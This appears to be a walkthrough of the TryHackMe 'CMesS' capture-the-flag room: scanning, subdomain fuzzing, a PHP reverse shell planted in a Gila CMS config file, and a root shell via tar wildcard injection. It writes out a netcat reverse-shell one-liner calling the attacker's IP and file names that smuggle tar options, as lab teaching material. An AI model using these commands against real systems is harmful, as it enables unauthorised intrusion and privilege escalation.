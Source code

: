 ```yaml
---
description: https://tryhackme.com/room/cmess
---
```


# CMesS

## Nmap

```
sudo nmap 10.10.150.164 -p- -sS -sV

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 
(Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

{% hint style="info" %}
Add cmess.thm to /etc/hosts
{% endhint %}

Root page for http://cmess.thm takes us to the following for Gila CMS.

![](<../../../.gitbook/assets/image (923).png>)

I was unable to accurately determine the version so tried a few of the available exploits and was unsuccessful in making any progress. Further directory enumeration did not provided any further results of value.

From here I attempted sub domain brute forcing with `wfuzz` to help identify any other avenues of exploitation.

```
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -t 42 --hl 107 
```

This showed that the 'dev' subdomain is valid.

![](<../../../.gitbook/assets/image (924) (1).png>)

{% hint style="info" %}
add the dev.cmess.thm domain to /etc/hosts.
{% endhint %}

Browsing to http://dev.cmess.thm shows the following page which contains user credentials:

![http://dev.cmess.thm/](<../../../.gitbook/assets/image (925).png>)

Moving over to http://cmess.thm/admin/ we are then able to login as the user.

![http://cmess.thm/admin/](<../../../.gitbook/assets/image (926).png>)

Moving over to the /fm/ directory we have some files we can view and edit the contents of. The contents of config.default.php contain some important credentials. `root:r0otus3rpassw0rd`

![](<../../../.gitbook/assets/image (927).png>)

For a reverse shell I replaced the contents of config.php with a PHP reverse shell.

![](<../../../.gitbook/assets/image (928).png>)

After saving changes I then browsed to [http://cmess.thm/index.php](http://cmess.thm/index.php) and was able to receive a shell on my `netcat` listener.

![](<../../../.gitbook/assets/image (930).png>)

After performing some manual enumeration we find a .password.bak file in the /opt/ directory containing the password for andres.

![](<../../../.gitbook/assets/image (929).png>)

Which can be used to login over SSH.

![](<../../../.gitbook/assets/image (931).png>)

The home directory for andres has a directory called backup. Reading the note contained within informs us anything inside it will be backed up.

![](<../../../.gitbook/assets/image (932).png>)

Assuming a process is being executed on a regular interval we can run psp64 (downloaded from our attacking machine) to identify processes being run.

![](<../../../.gitbook/assets/image (933).png>)

We can see our pspy64 file has already been backed up. Directly underneath we can see the command being executed.

```
/bin/sh -c    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz * 
```

As the tar command ends in a wild card we can perform injection to grab a root shell. This is covered in greater details here: [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930).

Essentially when the tar command runs we can specify a checkpoint and a action to be performed by that checkpoint. As the process is being executed by root this leads to privilege escalation.

I first confirmed `nc` was installed on the target machine using `which nc`. I then used msfvenom to create a `netcat` payload.

```
cmd/unix/reverse_netcat LHOST=10.14.3.108 LPORT=80  
```

I then run the following commands inside the backup directory ensuring the msfvenom payload is included. After this has completed set a `netcat` listener on the attacking machine.

```
echo "mkfifo /tmp/tjbtd; nc 10.14.3.108 80 0</tmp/tjbtd | /bin/sh >/tmp/tjbtd 2>&1; rm /tmp/tjbtd" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
chmod 777 shell.sh
```

Soon after the backup job will run again and we will land a root shell.

![](<../../../.gitbook/assets/image (934).png>)

